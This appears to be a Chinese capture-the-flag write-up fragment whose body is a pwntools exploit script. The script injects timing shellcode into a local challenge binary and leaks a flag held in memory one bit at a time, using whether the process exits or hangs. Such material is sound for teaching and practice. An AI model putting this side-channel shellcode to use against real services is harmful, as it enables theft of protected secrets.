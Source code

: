 但由于程序一开始就把flag读进程序了,因此我们只要想办法把他leak出来就行

可惜程序关闭了0~1024的fd,因此考虑写延时shellcode,1bit 1bit来leak.

```python
#coding=utf8
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def bf(nbyte,nbit):
	cn = process('./bigpf_y')

	#z('b*0x56555ECB\nc')
	cn.recvuntil('NAME PROGRAM\n')
	cn.sendline('asdfasdfasdf')
	cn.recvuntil('LOAD PROGRAM\n')
	sc = '''
		/*edi -> flag*/
		add edi,%d /* n byte */
		xor edx,edx
		mov dl,byte ptr [edi]
		shr dl,%d /* n bit */
		and dl,1

		test edx,edx
		jz loop
		xor ebx,ebx
		mov eax,1
		int 0x80 /* exit */
	loop:
		jmp loop
	''' %(nbyte,nbit)
	sc = asm(sc)

	cn.send(p32(len(sc)))
	cn.send(sc)
	sleep(0.01)
	try:
		cn.send('test')
		cn.recv(timeout=0.01)
	except:
		cn.close()
		return 1

	cn.close()
	return 0

out=''
for i in range(0x100): # byte
	ch=''
	for j in range(8):
		ch = str(bf(i,j))+ch
		success(ch)
	intt=int(ch,2)
	if(intt == 0):
		success(out)
		exit(0)
	out+=chr(intt)
```